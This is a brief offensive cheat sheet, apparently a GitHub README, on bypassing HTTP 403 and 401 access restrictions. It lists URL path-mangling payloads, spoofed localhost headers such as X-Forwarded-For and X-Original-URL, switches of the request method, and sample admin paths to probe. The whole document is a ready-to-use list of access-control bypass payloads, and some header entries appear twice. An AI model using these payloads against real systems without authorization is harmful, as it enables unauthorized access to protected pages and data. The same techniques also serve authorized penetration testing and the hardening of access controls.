 # Bypass-forbidden

Bypassing Forbidden 403,301: Technique and Methodology

## URL Manipulation
Add this in paths of the URL and the file which is forbidden.
- /*-
- /%2f/
- /./
- /
- /*/
- {%2e}
- {%2f}
- { /*, /./}


## Headers Manipulation
Adding custom Headers in request.
Try to add Add this custom url
* X-Custom-IP-Authorization: 127.0.0.1
* X-Forwarded-For: 127.0.0.1
* X-Forward-For: 127.0.0.1
* X-Remote-IP: 127.0.0.1
* X-Originating-IP: 127.0.0.1
* X-Remote-Addr: 127.0.0.1
* X-Client-IP: 127.0.0.1
* X-Real-IP: 127.0.0.1
* X-Originating-IP: 127.0.0.1
* X-Forwarded-For: 127.0.0.1
* X-Forwarded: 127.0.0.1
* Forwarded-For: 127.0.0.1
* X-Remote-IP: 127.0.0.1
* X-Remote-Addr: 127.0.0.1
* X-ProxyUser-Ip: 127.0.0.1
* X-Original-URL: 127.0.0.1
* Client-IP: 127.0.0.1
* True-Client-IP: 127.0.0.1
* Cluster-Client-IP: 127.0.0.1
* X-ProxyUser-Ip: 127.0.0.1
* Host: localhost: 127.0.0.1
* X-HTTP-Method-Override: PUT


## Change requested method

GET → POST, GET → TRACE, GET → PUT, GET → OPTIONS

## Crawl Further more 
```
http://example.com/admin/
```
```
http://example.com/admin/data/u_get_access
```
